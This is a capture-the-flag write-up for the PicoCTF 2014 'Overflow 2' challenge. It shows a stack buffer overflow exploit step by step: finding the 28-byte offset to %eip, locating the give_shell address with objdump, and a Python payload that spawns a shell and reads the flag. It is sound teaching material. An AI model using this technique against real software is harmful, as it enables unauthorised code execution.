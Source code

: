# Pico CTF 2014 : Overflow 2

**Category:** Binary Exploitation
**Points:** 70
**Description:**

>This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found here(overflow2.c).

**Hint:**
>How can you run the give_shell function?

## Write-up

This program has a similar vulnerability to [Overflow 1](../overflow-1-50). The
main difference is that this time we will gain control over the program flow.
Let's supply some bytes and see what happens:
```
/home/overflow2$ strace ./overflow2 $(python -c 'print "A"*28 + "BBBB"')
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```

A bit of trial and error will reveal we control `%eip` after 28 bytes. Now all
we need is a convenient function to jump to! Let's look at the source:
```
/* This never gets called! */
void give_shell()
```
Luckily for us, PIE is not enabled, meaning we can supply the address of this
function to the program!

```
/home/overflow2$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```

Now all we have to do is convert that address into an escape sequence for
python and then convert it to little endian. We get this exploit:
```
/home/overflow2$ ./overflow2 $(python -c 'print "A"*28 + "\xad\x84\x04\x08"')
$ ls
flag.txt  Makefile  overflow2  overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```



## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/overflow_2.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-overflow-2/>
